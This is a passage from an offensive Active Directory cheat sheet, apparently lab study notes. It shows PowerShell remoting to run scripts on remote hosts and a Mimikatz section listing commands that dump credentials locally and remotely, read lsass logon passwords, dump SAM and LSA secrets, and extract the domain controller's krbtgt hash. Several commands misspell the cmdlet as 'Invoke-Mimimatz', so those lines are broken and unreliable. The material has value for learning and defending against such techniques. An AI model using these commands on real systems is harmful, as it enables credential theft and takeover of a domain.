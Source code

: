 	
	# Directly load function on the remote machines using FilePath

	$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
	Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
	Enter-PSSession -Session $sess

	[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> hello
	Hello from the function
    ```
    

**Mimikatz Cheatsheet**

- Default Command
    
    ```powershell
    Invoke-Mimikatz
    Invoke-Mimikatz -DumpCreds # Dump credentials on a local machine

	#Dump credentials on multiple remote machines

    Invoke-Mimikatz -DumpCreds -ComputerName <comp>
	Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")

    
    ```
    
- Use Mimikatz with PowerShell Remoting
    
    ```powershell
    Invoke-Command -FilePath invoke-mimikatz.ps1 -Session $sess
    
    ```
    
- Dump credentials from memory (lsass.exe)
    
    ```powershell
    Invoke-Mimimatz -Command '"sekurlsa::logonpasswords"'
    Invoke-Mimimatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
    
    ```
    
- Dump credentials from local SAM account (Contains DSRM Admin creds) & LSA (conatins details from ntds.dat)
    
    ```powershell
    Invoke-Mimimatz -Command '"lsadump::sam"'

	# Execute mimikatz on DC as DA to get krbtgt hash
	
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
	
    
    ```
    
- Dump credentials from windows vault
    